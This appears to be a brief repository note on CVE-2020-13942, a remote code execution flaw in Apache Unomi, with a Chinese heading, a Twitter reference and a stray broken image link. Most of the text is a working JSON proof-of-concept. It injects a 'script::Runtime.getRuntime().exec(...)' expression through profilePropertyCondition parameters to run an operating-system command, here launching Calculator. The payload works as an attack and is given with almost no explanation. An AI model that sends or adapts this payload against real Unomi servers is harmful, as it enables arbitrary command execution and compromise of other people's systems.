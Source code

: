 # CVE-2020-13942 Apache Unomi 远程代码执行


PoC：

```json
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"}
```

media/16097302096726/16097302307813.jpg)


ref：

https://twitter.com/pyn3rd/status/1328920545442680837